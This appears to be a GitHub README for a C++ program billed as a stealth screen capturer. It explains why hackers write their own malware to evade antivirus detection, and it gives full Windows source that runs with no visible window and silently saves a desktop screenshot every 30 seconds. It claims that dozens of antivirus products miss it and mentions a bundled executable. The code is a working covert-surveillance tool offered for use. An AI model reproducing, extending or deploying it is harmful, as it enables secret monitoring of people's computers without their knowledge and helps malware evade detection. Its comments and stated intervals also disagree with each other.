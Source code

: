 ### Exploit Development : Hidden Screen Catpure C++ (Stealth Mode):

It is primary designed to be hidden and monitoring the computer activity. Take a screenshot of desktop in hidden mode using Visual C++ and save automatically to 'jpeg' file in every 30 second. 60+ Most Popular antivirus not detect this application while it is running on background.

### Why Programming Is Important for Hackers to Know:

Programming is an important skill that every self respecting hacker should master. here are some good examples of why it is important:

* <b>Building your own malware. </b>
When you program your own malware, there is no signature for it registered, thus making it pretty much impossible for AV software to detect.

* <b>Knowing how programs work will help you exploit them. </b>
though most exploit development is done in the assembly language in debuggers, knowing how a program works will help you exploit it faster.

* <b>Hacking tools are mostly open source. </b>
most hacking tools are open source, which means everyone can access the source code of said program. when you know how to program in the language the program is written, you can edit it and make it even better!

* <b>Making your own exploits. </b>
Though i recommend ruby & the Metasploit Framework for this purpose, ruby is still quite slow compared to C or C++. if you need your exploit to be fast, you can write it in C/C++.

i choose to make a series about C/C++ because C++ is a powerful language and is used in a lot of programs, like games. C is less powerfull but is still quite a low-level language, which means it interacts closely with the CPU. embedded devices are usually programmed in C aswell, from traffic lights to your microwave, will most likely run on some kind of software that is written in C.

### Prerequisites:

1. Microsoft Windows System
2. Visual Studio 2012

### Screenshot.zip (Files Included in Repo)

Contain Executable Version of Program. It run in Stealth Mode and Capture the Screenshot after 60 seconds of interval. Imaege name is based on Current System Time.

### Source Code :

```
#include <stdio.h>
#include <string>
#include <windows.h>
#include <wininet.h>
#include <winuser.h>
#include <conio.h>
#include <time.h>
#include <fstream>
#include <strsafe.h>
#include <io.h>
#include <crtdefs.h>
#include <fstream>
#include <GdiPlus.h>
#include <lmcons.h>

//char acUserName[100];

using namespace Gdiplus;
using namespace std;

fstream err("errormul.txt",ios::app);
fstream log_error_file("log_error.txt",ios::app);

#pragma comment(lib, "user32.lib") 
#pragma comment(lib,"Wininet.lib")
#pragma comment (lib,"gdiplus.lib")

void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;  // rectangle  Object

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);  //create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);  //copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;   //get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());  //sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder);   //save in jpeg format
	SelectObject(dc2,holdbitmap);  //Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int CmdShow)
{
	while(true){
	SYSTEMTIME st;  // create object of system time 
	GetLocalTime(&st);
	int year = st.wYear;  // extract year from system time
	int month = st.wMonth; // extract month from system time
	int day = st.wDay; // extract year day system time
	int hour = st.wHour; // extract year hours system time
	int mintue = st.wMinute; // extract mintue from system time

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M.jpg";

	string startDate;
	startDate =dayS + monthS + yearS + hourS + mintueS;  // create complete string of date and time
	
	screenshot(startDate);   // send string to screenshot function
	Sleep(1000*30*1);  // delay execution of function 60 Seconds
	}
}

```
## Version

1.7

## Authors

Ajay Randhawa

